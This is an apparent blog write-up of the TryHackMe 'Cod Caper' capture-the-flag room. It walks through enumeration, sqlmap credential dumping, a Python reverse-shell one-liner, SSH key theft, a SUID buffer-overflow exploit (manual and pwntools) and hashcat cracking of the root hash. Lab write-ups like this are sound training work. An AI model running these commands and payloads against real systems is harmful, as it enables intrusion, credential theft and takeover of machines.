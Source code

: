 ```yaml
---
layout: post
title: The Cod Caper – Try Hack Me
subtitle: Walkthrough
tags: [pwn,gdb,pwntools]
---
```


From this machine you will have a basic understanding on how to tackle a pwn challenge, from both a manual and automatic approach.

[Challenge](https://tryhackme.com/room/thecodcaper)

## Task 1 -> Intro

Initiate the VPN connection and deploy the machine

## Task 2 -> Host Enumeration

We start by adding the IP address of our machine to the /etc/hosts

~~~
echo "10.10.75.236 cod" > /etc/hosts
~~~

Nmap scan to discover what we are working with

~~~
nmap -A -T5 cod
~~~

![nmap](/img/2020-05-09-Cod/nmap.png)

## Task 3 -> Web Enumeration

With gobuster we can try to find some endpoints using the wordlist supplied.

~~~
gobuster dir -u cod:80 -w big.txt -x "txt,php"
~~~

![gobuster](/img/2020-05-09-Cod/gobuster.png)

We are presented with this admin login webpage.

![login](/img/2020-05-09-Cod/login.png)

## Task 4 -> Web Exploitation

Using [sqlmap](http://sqlmap.org) we will find the admin credentials.

~~~
sqlmap -u http://cod/administrator.php --forms --dump
~~~

![sqlmap](/img/2020-05-09-Cod/sqlmap.png)
![sqlmap2](/img/2020-05-09-Cod/sqlmap2.png)

After we login with the credentials found, we are presented with this webpage where we supposedly can run a command on the server.

![rce](/img/2020-05-09-Cod/rce.png)

The next step is to have a stable shell in the system. I was having trouble using nc, but since python installed, we can use it. From your machine start listening for incoming connections.

~~~
nc -nvlp 80
~~~

From the webpage we can use the following command to start the shell. 

**Note** Replace "IP_ADDRES" with your IP from TryHackMe.

~~~
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ADDRES",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

![shell](/img/2020-05-09-Cod/shell.png)

The next step is to find all the files owned by 'www-data', we can use the following command for that.

~~~
find / -type f -user www-data > file2.txt
~~~

![find](/img/2020-05-09-Cod/find.png)

Even though we are presented with an extensive output, there's only one file that makes sense.  
Simply cat this file to get the ssh password.

~~~
cat /var/hidden/pass
~~~

Now we can ssh into the machine, start by copying the private key into your machine. This file is located in '/home/pingu/.ssh/id_rsa'.  
This is the command to ssh into the machine, but you will need to use the previously found password.

~~~
ssh -i ssh_key pingu@cod
~~~


## Task 6 -> LinEnum

The next task is to use the script [LinEnum](https://github.com/rebootuser/LinEnum). 
We will use 'scp' to insert the script in the victim machine. 

~~~
scp LinEnum.sh pingu@cod:/tmp
~~~

Once the script is executable run it.

~~~
chmod +x LinEnum.sh
/LinEnum.sh
~~~

From the output we can see that there is a strange suid file.

![suid](/img/2020-05-09-Cod/suid.png)

## Task 7 -> Pwndbg

Start the suid file with gdb

~~~
gdb /opt/secret/root
~~~

The following command tells you exactly how many characters you need to provide in order to override the instruction pointer.

~~~
cyclic -l 0x6161616c
~~~

## Task 8 -> Binary-Exploitaion: Manually

Quit the gdb shell, and in the system use this command.

~~~
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
~~~

We are printing 44 times the letter A to fill the buffer, and then we provide the string "\xcb\x84\x04\x08" which represents the shell function, therefore once the get_input() function ends instead of returning to the main() it will go to shell().

## Task 9 -> Binary Exploitation: The pwntools way

In this task we will achieve the same result but with pwntools.  
The main difference is that we get the shell() starting point from 'elf.symbols.shell'.  

~~~
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func
})
proc.sendline(payload)
proc.interactive()
~~~

Save the program into a .py file and run it.

~~~
python2 YOUR_FILE.py
~~~


## Task 10 -> Finishing the job

To finish we need to crack the hash for the root user.
To check the correct mode we can use [this](https://hashcat.net/wiki/doku.php?id=example_hashes) link.

**Note:** If you are using a VM the flag '--force' is required.

~~~
hashcat -m 1800 hashRoot.txt /usr/share/wordlists/rockyou.txt/rockyou.txt --force
~~~

![pass](/img/2020-05-09-Cod/pass.png)

We managed to crack the hash, having full control of the machine.